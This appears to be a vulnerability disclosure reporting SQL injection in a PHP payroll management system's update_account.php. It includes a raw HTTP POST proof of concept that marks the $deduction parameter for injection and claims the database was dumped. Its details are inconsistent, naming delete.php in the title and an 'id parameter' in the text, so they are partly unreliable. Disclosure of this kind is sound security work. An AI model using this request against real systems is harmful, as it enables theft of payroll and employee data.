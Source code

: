 # payroll-management-system-in-php has sql injection in delete.php

## supplier 
https://code-projects.org/payroll-management-system-in-php-with-source-code/
## Vulnerability parameter
update_account.php

## describe

An unrestricted SQL injection attack exists in payroll-management-system in update_account.php. The parameters that can be controlled are as follows: $deduction. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of   $deduction parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/7a216a65-e18d-41eb-89d8-9359de40c28f)



## POC

```
POST /update_account.php HTTP/1.1
Host: payroll
Content-Length: 75
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://payroll
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://payroll/home_employee.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=85u4m47klj7ldjr47mclti8mr6
Connection: close

id=1&deduction=1*&overtime=1&bonus=1
```



**Result**

get databases 

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
